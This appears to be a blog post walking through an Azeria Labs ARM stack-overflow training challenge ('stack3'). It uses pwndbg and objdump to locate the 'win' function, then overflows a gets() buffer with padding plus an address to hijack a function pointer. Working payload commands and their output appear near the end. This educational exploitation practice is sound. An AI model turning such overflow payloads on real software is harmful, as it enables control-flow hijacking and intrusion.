 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part IV"
tags: [reversing, exploiting, ARM, iasm, azeria-labs, objdump]
inline_default_language: nasm
---
```


This time the goal is to make the program print the message
`"code flow successfully changed"`{.cpp}.<!--more-->

## A manual `xref`{.cpp}

Let's see where this message is stored:

```nasm
pwndbg> search "code flow successfully changed"
stack3          0x10560 0x65646f63 /* 'code flow successfully changed'*/
stack3          0x20560 0x65646f63 /* 'code flow successfully changed'*/
```

And from where the executable makes a reference to it? In other
words, where in the code segment this address is stored?

```nasm
pwndbg> search -4 --executable 0x10560
stack3          0x10490 0x10560
stack3          0x10c6c 0x10560
stack3          0x20490 0x10560
```

To summarize the message (and array of chars) is stored at 0x10560
and the address 0x10560 is stored in 0x10490, 0x10c6c and 0x20490.

These addresses are the `char*`{.cpp} that the program must load into a
register to do a call to `printf`{.cpp} or `puts`{.cpp}.

Let's assume that one of those addresses is loaded in a register using an
instruction like this:

```nasm
<???>     ldr   r?, [pc, #offset?]
```

It is a reasonable assumption: the rest of the challenges so far used
this instruction.

We don't know neither which register will be using nor the offset so we
will have to guess.

Let's see what we can find with `objdump`{.cpp} and `grep`{.cpp}:

```nasm
pi@raspberrypi:~$ objdump -d stack3 | grep "ldr.*r[0-9], \[pc"
   10374:       e59f000c        ldr     r0, [pc, #12]   ; 10388 <_start+0x34>
   10378:       e59f300c        ldr     r3, [pc, #12]   ; 1038c <_start+0x38>
   10390:       e59f3014        ldr     r3, [pc, #20]   ; 103ac <call_weak_fn+0x1c>
   10394:       e59f2014        ldr     r2, [pc, #20]   ; 103b0 <call_weak_fn+0x20>
   103b4:       e59f301c        ldr     r3, [pc, #28]   ; 103d8 <deregister_tm_clones+0x24>
   103b8:       e59f001c        ldr     r0, [pc, #28]   ; 103dc <deregister_tm_clones+0x28>
   103c8:       e59f3010        ldr     r3, [pc, #16]   ; 103e0 <deregister_tm_clones+0x2c>
   103e4:       e59f1024        ldr     r1, [pc, #36]   ; 10410 <register_tm_clones+0x2c>
   103e8:       e59f0024        ldr     r0, [pc, #36]   ; 10414 <register_tm_clones+0x30>
   10400:       e59f3010        ldr     r3, [pc, #16]   ; 10418 <register_tm_clones+0x34>
   10420:       e59f4018        ldr     r4, [pc, #24]   ; 10440 <__do_global_dtors_aux+0x24>
   10448:       e59f0024        ldr     r0, [pc, #36]   ; 10474 <frame_dummy+0x30>
   10460:       e59f3010        ldr     r3, [pc, #16]   ; 10478 <frame_dummy+0x34>
   10484:       e59f0004        ldr     r0, [pc, #4]    ; 10490 <win+0x14>
   104c8:       e59f0018        ldr     r0, [pc, #24]   ; 104e8 <main+0x54>
   104f4:       e59f604c        ldr     r6, [pc, #76]   ; 10548 <__libc_csu_init+0x5c>
   104f8:       e59f504c        ldr     r5, [pc, #76]   ; 1054c <__libc_csu_init+0x60>
```

These two lines are interesting:

```nasm
   10484:       e59f0004        ldr     r0, [pc, #4]    ; 10490 <win+0x14>
   104c8:       e59f0018        ldr     r0, [pc, #24]   ; 104e8 <main+0x54>
```

And the winner is 0x10484!

```python
>>> 0x10484 + 0x4 + 0x8
0x10490
```

See how 0x10484 the address of the `ldr` instruction plus the offset
`0x4`{.none} plus 0x8 bytes yields an address (0x10490) that we found before, a
`char*`{.cpp}.

If we dereference it we will see the address of the message:

```nasm
pwndbg> x/1wx 0x10490
0x10490 <win+20>:       0x00010560

pwndbg> x/1bs 0x00010560
0x10560:        "code flow successfully changed"
```

So, our target is:

```nasm
pwndbg> pdisass 0x10484-8
 ► 0x1047c <win>        push   {fp, lr}
   0x10480 <win+4>      add    fp, sp, #4
   0x10484 <win+8>      ldr    r0, [pc, #4]
   0x10488 <win+12>     bl     #puts@plt <puts@plt>

   0x1048c <win+16>     pop    {fp, pc}
```

### A comment

This is not the only way to do it.

I could search for a `puts`{.cpp} call which whole be more likely to be the
one that we are looking for:

```shell
pi@raspberrypi:~$ objdump -d stack3 | grep "puts"
00010324 <puts@plt>:
   10488:       ebffffa5        bl      10324 <puts@plt>
```

I could look which functions are available:

```nasm
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x000102ec  _init
0x0001030c  printf@plt
0x00010318  gets@plt
0x00010324  puts@plt
<...>
0x0001047c  win
0x00010494  main
<...>
```

I could use IDA or [Radare2](https://rada.re/n/radare2.html) or similar
and do a `xref`{.cpp}...

Or I could just read what is the goal from the
[challenge](https://azeria-labs.com/part-3-stack-overflow-challenges/).

I preferred a longer path to explore more the commands of `pwndbg`{.cpp}
and stress a little more my brain.

Otherwise it wouldn't be fun :)

## Let's jump

This is the `main`{.cpp} function:

```nasm
pwndbg> pdisass &main 9
 ► 0x10494 <main>       push   {fp, lr}
   0x10498 <main+4>     add    fp, sp, #4
   0x1049c <main+8>     sub    sp, sp, #0x50
   0x104a0 <main+12>    str    r0, [fp, #-0x50]
   0x104a4 <main+16>    str    r1, [fp, #-0x54]
   0x104a8 <main+20>    mov    r3, #0
   0x104ac <main+24>    str    r3, [fp, #-8]
   0x104b0 <main+28>    sub    r3, fp, #0x48
   0x104b4 <main+32>    mov    r0, r3
   0x104b8 <main+36>    bl     #gets@plt <gets@plt>

   0x104bc <main+40>    ldr    r3, [fp, #-8]
   0x104c0 <main+44>    cmp    r3, #0
   0x104c4 <main+48>    beq    #main+72 <main+72>

   0x104c8 <main+52>    ldr    r0, [pc, #0x18]
   0x104cc <main+56>    ldr    r1, [fp, #-8]
   0x104d0 <main+60>    bl     #printf@plt <printf@plt>

   0x104d4 <main+64>    ldr    r3, [fp, #-8]
   0x104d8 <main+68>    blx    r3
```

So instead of a cookie like in the
[stack0](/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-I.html)
or [stack1](/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-II.html)
we have the address of a function.

{% call marginnotes() %}
`blx r3` is an unconditional jump to an absolute address
([docs](https://developer.arm.com/documentation/dui0068/b/arm-instruction-reference/arm-branch-instructions/blx?lang=en)).
<br />
That's why it works.
 {% endcall %}

The address is initialized to zero but due to a stack overflow we can
write an arbitrary address, in particular, the address of `win`{.cpp}:
0x0001047c

```shell
pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x7c\x04\x01\x00' | ./stack3
calling function pointer, jumping to 0x0001047c
code flow successfully changed
```

We could also jump to the middle of `win`{.cpp}, to 0x00010484, and we will
have the same result. The only problem is that the program will execute
the *epilogue* of `win`{.cpp} **without** having executed its *prologue*.

{% call marginnotes() %}
Does this ring some bells? This is the base of *return oriented
programming* or ROP.
 {% endcall %}

The result? `pop {fp, pc}` will restore `pc` to the next element in the
stack which most likely will not be a valid address. Happy segfault!

```shell
pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x84\x04\x01\x00' | ./stack3
calling function pointer, jumping to 0x00010484
code flow successfully changed
Segmentation fault
```
